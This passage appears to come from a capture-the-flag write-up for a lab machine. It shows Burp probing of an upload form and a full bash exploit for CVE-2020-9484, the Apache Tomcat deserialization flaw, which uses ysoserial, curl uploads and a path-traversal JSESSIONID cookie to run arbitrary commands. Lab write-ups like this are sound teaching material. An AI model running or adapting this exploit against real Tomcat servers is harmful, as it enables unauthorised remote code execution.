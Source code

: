 Sending the request to Burp's Repeater is where we can truly test the various parameters. Putting on my developer's hat, a thought came to me. What if we omit the filename, maybe Java will spit out some information about not finding the file? Let's give it a shot.

Here's the request.

{% include image.html image_alt="c850e365.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/c850e365.png" %}

And here's the response.

{% include image.html image_alt="c2964d10.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/c2964d10.png" %}

Awesome. We now know what the files are stored but we still don't know if `PersistentManager` and `FileStore` are used.

## Foothold

The only write-up on CVE-2020-9484 that I could find is a blog [post](https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/) by Red Timmy Security. My exploit is heavily based on the write-up. The only assumption is that `PersistentManager` and `FileStore` are used, and that each uploaded sample is associated with a session and that session is saved on disk.

The exploit comes in a form of a shell script, driven by `curl` and `ysoserial`. I already had `ysoserial.jar` built and the command `ysoserial` mapped as follows:

```bash
#!/bin/bash

YSOSERIAL="/root/Downloads/repo/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar"
java -jar $YSOSERIAL "$@"
```

Here's my exploit

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.205
PORT=8080
EMAIL="nobody%40example.com"
CMD=$1
PAYLOAD=$(mktemp -u)

ysoserial CommonsCollections4 "$CMD" > ${PAYLOAD}.session

curl -s \
     -F "image=@${PAYLOAD}.session" \
     -o /dev/null \
     "http://$HOST:$PORT/upload.jsp?email=$EMAIL"

curl -s \
     -b "JSESSIONID=../../../../../opt/samples/uploads/$(basename $PAYLOAD)" \
     -o /dev/null \
     "http://$HOST:$PORT/upload.jsp?email=$EMAIL"

rm -rf ${PAYLOAD}.session
```
